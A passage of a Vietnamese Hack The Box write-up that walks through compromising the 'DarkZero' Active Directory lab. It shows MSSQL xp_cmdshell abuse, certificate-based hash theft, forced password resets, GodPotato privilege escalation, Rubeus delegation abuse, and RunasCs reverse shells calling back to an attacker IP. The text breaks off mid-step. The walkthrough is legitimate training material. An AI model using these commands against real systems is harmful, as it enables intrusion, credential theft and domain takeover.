# DarkZero



Sử dụng nmap để quét các port có trên mục tiêu:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-21 07:01:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-29T11:40:00
| Not valid after:  2026-07-29T11:40:00
| MD5:   ce57:1ac8:da76:eb62:efe8:4e85:045b:d440
|_SHA-1: 603a:f638:aabb:7eaa:1bdb:4256:5869:4de2:98b6:570c
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-29T11:40:00
| Not valid after:  2026-07-29T11:40:00
| MD5:   ce57:1ac8:da76:eb62:efe8:4e85:045b:d440
|_SHA-1: 603a:f638:aabb:7eaa:1bdb:4256:5869:4de2:98b6:570c
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.7.180:1433: 
|     Target_Name: darkzero
|     NetBIOS_Domain_Name: darkzero
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: darkzero.htb
|     DNS_Computer_Name: DC01.darkzero.htb
|     DNS_Tree_Name: darkzero.htb
|_    Product_Version: 10.0.26100
|_ssl-date: 2026-03-21T07:02:43+00:00; 0s from scanner time.
| ms-sql-info: 
|   10.129.7.180:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-21T06:55:18
| Not valid after:  2056-03-21T06:55:18
| MD5:   80f9:e7cc:8548:2cbd:ff60:b7fa:3195:5f58
|_SHA-1: 50da:d274:e26b:4ea9:4464:764c:259d:0043:951f:d2bf
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-29T11:40:00
| Not valid after:  2026-07-29T11:40:00
| MD5:   ce57:1ac8:da76:eb62:efe8:4e85:045b:d440
|_SHA-1: 603a:f638:aabb:7eaa:1bdb:4256:5869:4de2:98b6:570c
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-29T11:40:00
| Not valid after:  2026-07-29T11:40:00
| MD5:   ce57:1ac8:da76:eb62:efe8:4e85:045b:d440
|_SHA-1: 603a:f638:aabb:7eaa:1bdb:4256:5869:4de2:98b6:570c
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Sử dụng cred mà htb đã cung cấp là `john.w / RFulUtONCOL!` để đăng nhập vào dịch vụ đang mở trên target:



Dùng dig để lấy thêm 1 số thông tin:



Sử dụng `impacket-mssqlclient john.w@DC01.darkzero.htb -windows-auth` để đăng nhập vào mssql 



Khám phá thì thấy link server là `DC02.darkzero.ext`, chuyển sang DC02 và thử EXEC thì được, để ý có file `C:\Policy_Backup.inf` trong đó có cho biết là user mà tôi đang dùng là Type 5: Service



Do xp_cmdshell sinh ra thực chất là một tiến trình con mồ côi (child process) của dịch vụ sqlservr.exe thế nên không có đủ quyền để chạy 1 số cái, vậy nên tiếp theo là làm thế nào để vào được powershell

Địa chỉ ip trong nội bộ là `172.16.20.2`:



Tiếp tục là sử dụng ligolo-ng để tunel vào trong:



Sau khi tunel xong thì dùng `sudo ntpdate -u 172.16.20.2` để đồng bộ thời gian (lưu ý là chisel không sử dụng ntpdate được) 



Tiếp tục khám phá bằng tool [SharpHound](https://github.com/SpecterOps/SharpHound/releases/tag/v2.10.0)

Chạy lệnh `EXEC xp_cmdshell 'cd %temp% && SharpHound.exe Invoke-BloodHound'` để thực thi SharpHound, để chắc chắn chương trình chạy ok thì thêm cả file config với pdb vào cho ăn chắc:



Tạo smbserver sau khi chạy `EXEC xp_cmdshell 'cd %temp% && SharpHound.exe Invoke-BloodHound'`





Đưa vào docker thì ra cái cấu trúc này:





Sử dụng `EXEC xp_cmdshell 'powershell %temp%/Certify.exe request /ca:DC02\darkzero-ext-DC02-CA /template:User'` lấy được key, dùng `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx` để tạo pfx:



Sau khi chạy `certipy-ad auth -pfx cert.pfx -u svc_sql -domain darkzero.ext -dc-ip 172.16.20.2` thì có được hash:



Thử dùng `evil-winrm -i 172.16.20.2 -u svc_sql -H 816ccb849956b531db139346751db65f` nhưng không được, tôi dùng lệnh `impacket-changepasswd darkzero.ext/svc_sql@172.16.20.2 -hashes :816ccb849956b531db139346751db65f -newpass 'P@ssw0rd'` để đổi password:



Sau khi đổi password xong thì sử dụng [RunasCs](https://github.com/antonioCoco/RunasCs/releases/tag/v1.5) để tạo powershell trên port 9001 bằng lệnh `EXEC xp_cmdshell '%temp%\RunasCs.exe svc_sql "P@ssw0rd" powershell -b -r 10.10.17.55:9001 -l 5'`:



Sau khi có được powershell xịn hơn thì leo quyền, trước tiên là tải về tool [GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20), thay đổi password của admin bằng `.\GodPotato-NET4.exe -cmd "cmd /c net user Administrator Password123 /domain"`



Đổi được pass của admin do quyền `SeImpersonatePrivilege`



Dùng `.\RunasCs.exe administrator Password123 powershell -r 10.10.17.55:1234` để tạo powershell tại cổng 1234 với quyền admin:



Dựa vào kết quả dưới thì đây chỉ là máy DC02, mục tiêu là máy DC01:

```
PS C:\Users\Administrator\Desktop> Get-ADComputer -Identity $env:COMPUTERNAME -Properties TrustedForDelegation,TrustedToAuthForDelegation
Get-ADComputer -Identity $env:COMPUTERNAME -Properties TrustedForDelegation,TrustedToAuthForDelegation


DistinguishedName          : CN=DC02,OU=Domain Controllers,DC=darkzero,DC=ext
DNSHostName                : DC02.darkzero.ext
Enabled                    : True
Name                       : DC02
ObjectClass                : computer
ObjectGUID                 : f85520d0-db6e-4a92-9ebc-f01d6d4cc268
SamAccountName             : DC02$
SID                        : S-1-5-21-1969715525-31638512-2552845157-1000
TrustedForDelegation       : True
TrustedToAuthForDelegation : False
UserPrincipalName          : 
```

Tiếp theo thì sử dụng công cụ [rubeus](https://github.com/ghostpack/rubeus) 

Sử dụng lệnh `.\Rubeus.exe monitor /interval:1 /nowrap` để theo dõi các hành động. Kết nối lại mssql ở DC01 và chạy `EXEC master..xp_dirtree '\\DC02.darkzero.ext\abcd5125'` để DC01 gọi sang DC02, ở đây sẽ xảy ra quá trình xác thực và rubeus bắt được:

